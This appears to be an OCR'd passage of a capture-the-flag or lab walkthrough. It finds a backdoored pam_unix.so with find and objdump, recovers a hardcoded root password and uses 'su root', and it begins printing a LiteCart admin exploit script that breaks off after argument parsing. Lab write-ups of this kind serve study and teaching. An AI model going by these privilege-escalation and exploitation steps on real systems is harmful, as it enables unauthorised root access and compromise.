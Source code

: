 
 Search modified files from July,14 till today:
  
	find / -newermt "2020-07-14" ! -newermt "2020-09-25" -type f 2>/dev/null
  
 This files:
  
	/lib/x86\_64-linux-gnu/security/.pam\_unix.so
  
	/lib/x86\_64-linux-gnu/security/pam\_unix.so
  

 You can use reversing for file pam\_unix.so
  
 or command on victim:
  
	objdump -D /lib/x86\_64-linux-gnu/security/pam\_unix.so | less
  
 \===================================================
  
 Then need to convert and get root password: zlke~U3Env82m2-
  
 To get root: su root { Via ssh root@... not work!}
  
 with password zlke~U3Env82m2-
  
 \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
  
 \=========== Content of modified file 45267.py ==========================
  
	#!/usr/bin/env python

	import mechanize

	import cookielib

	import urllib2

	import requests

	import sys

	import argparse

	import random

	import string

	parser = argparse.ArgumentParser(description='LiteCart')

	parser.add\_argument('-t',

	help='admin login page url - EX: https://IPADDRESS/admin/')

	parser.add\_argument('-p',

	help='admin password')

	parser.add\_argument('-u',

	help='admin username')

	args = parser.parse\_args()

	if(not args.u or not args.t or not args.p):
